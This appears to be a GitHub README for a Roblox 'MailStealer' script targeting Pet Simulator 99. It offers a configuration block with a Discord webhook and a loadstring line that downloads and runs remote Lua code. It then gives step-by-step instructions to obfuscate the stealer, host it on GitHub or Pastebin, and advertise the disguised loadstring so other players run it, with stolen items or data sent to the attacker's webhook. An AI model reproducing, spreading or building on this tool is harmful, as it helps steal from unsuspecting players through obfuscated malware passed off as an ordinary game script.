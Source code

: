 # Script With Tutorial !

```Username = "YOUR USERNAME"

Username2 = "ALT USERNAME"

Loading = "LOADING"

Webhook = "YOUR WEBHOOK"

loadstring(game:HttpGet("https://raw.githubusercontent.com/GengarScripts/MailStealer/main/PetSimulator99"))()
```

# Tutorial !

1: Edit mailstealer with your Username.

2: Save your stealer and Obfuscate it using MoonSec bot OR https://luaobfuscator.com/.

3: After u obfuscated save it and register/login on https://github.com/ to upload your script.

4: Create a repositorie and upload your obfuscated script (on github or pastebin).

5.1:Click This (Github)
![image](https://media.discordapp.net/attachments/1278849155271491649/1285960490056548475/Screenshot_2024-09-18_0842591.jpg?ex=66ec2b88&is=66eada08&hm=a481bd5e137b4f2b6d60826335d0343f0266835d972d035682652bba26996c45&=&format=webp&width=1440&height=49)

5.2:Click This (Pastebin)
![image](https://media.discordapp.net/attachments/1278849155271491649/1285960490564063312/Screenshot_2024-09-18_084521.jpg?ex=66ec2b88&is=66eada08&hm=ef569eac9f0175c9231f549578a20809a6dd483d5c53009ca7edc6f5427d2e80&=&format=webp)

6:And Click The Raw

7: Copy link

8: Put your link in this script
```lua
loadstring(game:HttpGet("YOUR LINK HERE", true))()
```

9: After u finished u got your loadstring script with mailstealer
Now all u have to do is adversite this script as u can
```
loadstring(game:HttpGet("Your Link Here", true))()
```
10: Create a Webhook Discord

![COMPUTER](https://discord.com/channels/1278845907667914924/1284239144238846037/1284239370173288518)

![PHONE](https://discord.com/channels/1278845907667914924/1284239144238846037/1284239508459491422)


